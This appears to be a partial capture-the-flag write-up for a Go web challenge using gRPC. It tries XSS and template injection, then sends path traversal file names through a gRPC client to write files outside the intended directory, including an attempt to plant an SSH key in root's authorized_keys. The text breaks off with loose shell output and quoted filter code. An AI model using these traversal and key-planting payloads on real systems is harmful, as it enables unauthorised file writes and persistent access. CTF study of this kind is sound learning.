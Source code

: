 # Testimonial

> As the leader of the Revivalists you are determined to take down the KORP, you and the best of your faction's hackers have set out to deface the official KORP website to send them a message that the revolution is closing in.
>
> Files:
> - `web_testimonial.zip`
>
> Docker
> - `94.237.53.3:32885`
> - `94.237.53.3:31535`

**Writeup by:** Hein Andre Grønnestad


- [Testimonial](#testimonial)
  - [Files](#files)
  - [Wesbite](#wesbite)
  - [Service](#service)
  - [Analysing The Code](#analysing-the-code)
  - [Poking Around The Website](#poking-around-the-website)
    - [XSS](#xss)
    - [Templating Injection](#templating-injection)
  - [Protocol Buffers](#protocol-buffers)


## Files

```bash
$ ll
total 64
-rwxrwxrwx 1 hag hag  4353 Mar 13 09:14 README.md
-rwxrwxrwx 1 hag hag 56528 Mar 13 09:16 web_testimonial.zip

$ unzip web_testimonial.zip
Archive:  web_testimonial.zip
  inflating: build-docker.sh
   creating: challenge/
  inflating: challenge/go.sum
   creating: challenge/client/
  inflating: challenge/client/client.go
 extracting: challenge/.gitignore
  inflating: challenge/.air.toml
   creating: challenge/public/
   creating: challenge/public/js/
  inflating: challenge/public/js/bootstrap.min.js
   creating: challenge/public/testimonials/
  inflating: challenge/public/testimonials/2.txt
  inflating: challenge/public/testimonials/1.txt
  inflating: challenge/public/testimonials/3.txt
   creating: challenge/public/css/
  inflating: challenge/public/css/main.css
  inflating: challenge/public/css/bootstrap.min.css
   creating: challenge/view/
   creating: challenge/view/layout/
  inflating: challenge/view/layout/app.templ
   creating: challenge/view/home/
  inflating: challenge/view/home/index.templ
   creating: challenge/pb/
  inflating: challenge/pb/ptypes_grpc.pb.go
  inflating: challenge/pb/ptypes.pb.go
  inflating: challenge/pb/ptypes.proto
  inflating: challenge/grpc.go
  inflating: challenge/go.mod
   creating: challenge/handler/
  inflating: challenge/handler/shared.go
  inflating: challenge/handler/home.go
  inflating: challenge/main.go
  inflating: challenge/Makefile
   creating: challenge/tmp/
  inflating: challenge/tmp/build-errors.log
  inflating: Dockerfile
  inflating: entrypoint.sh
 extracting: flag.txt
```

## Wesbite

Ther first endpoint is a web page.

![alt text](image.png)

The web site lists some testimonials and allows us to write one of our own.


## Service

The other endpoint is a service that just returns `@` when connected to.

```bash
$ nc 94.237.53.3 32885
@
```


## Analysing The Code

The source code is in Go. We're dealing with gRPC and protocol buffers.

Our second endpoint is probably a gRPC service.


## Poking Around The Website

![alt text](image-1.png)

We are able to post a testimonial.

![alt text](image-4.png)

We can also browse the `public` directory.


### XSS

I don't think `XXS` is the right attack vector here, but let's just try it anyway:

![alt text](image-2.png)

No apparent `XXS` vulnerability here.

### Templating Injection

From [index.templ](challenge/view/home/index.templ):

```html
  <section class="container mt-5">
      <h2 class="text-center mb-4">What Others Say</h2>
      <div class="row">
          @Testimonials()
      </div>
  </section>
```

![alt text](image-3.png)

Not an obvious `Templating Injection` vulnerability either.


## Protocol Buffers

Maybe we can find something in the protocol buffers?


```bash
$ python3 -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. challenge/pb/ptypes.proto
```


```bash
$ python3 rpc.py "../../../../../../../root/.ssh/authorized_keys" "ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEA9BplI+X2/T/b3JMjn2TYaPbhcQkl9oETcoHRsvsk13Pm3pBdrqz3fs2eNslCjYUzuVpQSZJA056Y+3ouW405Zw9UjaUmQsWwFnnH4HSXd1Z7kwfggWU3yruuTuMLyVuEWhfqovKpiki5hcoPHVRKu4WYEgqfy3phffSOf89XXw6ivfCp7sppFlnHn6XMUo+1tjkl2Z1V3uIns4OFkdC33Dqz+/vpYFZIScy7J/EgPcgnVdPKt9qOxyFIm5tzjsTxuUjtWZ9eq4oq3EB73qs5Zbl82oXi6XyHN1Oq03jV9bqw8gDCL0WtzVKd1lSM8O1IB+UToGziZVibU3oK2zKIdw=="
Traceback (most recent call last):
  File "/mnt/c/Dev/ctf-htb-cyber-apocalypse-2024/web/testimonial/challenge/pb/rpc.py", line 20, in <module>
    response = stub.SubmitTestimonial(request)
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/hag/.local/lib/python3.11/site-packages/grpc/_channel.py", line 1176, in __call__
    return _end_unary_response_blocking(state, call, False, None)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/hag/.local/lib/python3.11/site-packages/grpc/_channel.py", line 1005, in _end_unary_response_blocking
    raise _InactiveRpcError(state)  # pytype: disable=not-instantiable
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
grpc._channel._InactiveRpcError: <_InactiveRpcError of RPC that terminated with:
        status = StatusCode.UNKNOWN
        details = "open public/testimonials/../../../../../../../root/.ssh/authorized_keys: no such file or directory"
        debug_error_string = "UNKNOWN:Error received from peer  {grpc_message:"open public/testimonials/../../../../../../../root/.ssh/authorized_keys: no such file or directory", grpc_status:2, created_time:"2024-03-13T10:38:40.643544418+01:00"}"
```


```
$ python3 rpc.py "../../../../1.txt.txt" "PPPPPPPPPPPPPPPPPPPPPPPPP"



/ # ls -al
total 96
drwxr-xr-x    1 root     root          4096 Mar 13 13:04 .
drwxr-xr-x    1 root     root          4096 Mar 13 13:04 ..
-rwxr-xr-x    1 root     root             0 Mar 13 11:44 .dockerenv
-rw-r--r--    1 root     root            25 Mar 13 13:04 1.txt.txt








func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```